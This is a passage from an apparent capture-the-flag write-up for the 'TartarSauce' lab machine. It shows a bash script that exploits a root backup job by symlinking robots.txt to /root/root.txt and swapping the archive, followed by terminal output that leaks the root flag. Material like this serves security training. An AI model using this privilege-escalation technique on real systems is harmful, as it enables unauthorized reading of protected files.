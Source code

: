 ```bash
rm var/www/html/robots.txt
ln -s /root/root.txt var/www/html/robots.txt

# remove old archive
rm $fn

# create new archive
tar czf $fn var

# put it back, and clean up
mv $fn $cur
rm $fn
rm -rf var

# wait for results
echo "Waiting for new logs..."
tail -f /var/backups/onuma_backup_error.txt
```

Running this script gave me the root.txt

```bash
onuma@TartarSauce:/dev/shm$ ./root.sh
./root.sh
Waiting for archive filename to change...
File changed... copying here
tar: var/www/html/webservices/monstra-3.0.4/public/uploads/.empty: Cannot stat: Permission denied
tar: Exiting with failure status due to previous errors
rm: cannot remove '.6c7dc6e795213cc73a9172c4e13008c1ff2fe0c8': No such file or directory
rm: cannot remove 'var/www/html/webservices/monstra-3.0.4/public/uploads/.empty': Permission denied
Waiting for new logs...
---
>                                                       if (preg_match('#\
\ No newline at end of file
Only in /var/www/html/webservices/wp/wp-includes: js
Only in /var/www/html/webservices/wp/wp-includes: nav-menu-template.php
Only in /var/www/html/webservices/wp/wp-includes: shortcodes.php
Only in /var/www/html/webservices/wp/wp-includes: theme.php
Only in /var/www/html/webservices/wp: wp-load.php
Only in /var/www/html/webservices/wp: wp-login.php
Only in /var/www/html/webservices/wp: wp-settings.php
------------------------------------------------------------------------
Integrity Check Error in backup last ran :  Wed Sep 22 07:29:09 EDT 2021
------------------------------------------------------------------------
/var/tmp/.6c7dc6e795213cc73a9172c4e13008c1ff2fe0c8
diff -r /var/www/html/robots.txt /var/tmp/check/var/www/html/robots.txt
1,7c1
< User-agent: *
< Disallow: /webservices/tar/tar/source/
< Disallow: /webservices/monstra-3.0.4/
< Disallow: /webservices/easy-file-uploader/
< Disallow: /webservices/developmental/
< Disallow: /webservices/phpmyadmin/
< 
---
> e79abdab8b8a4b64f8579a10b2cd09f9
```
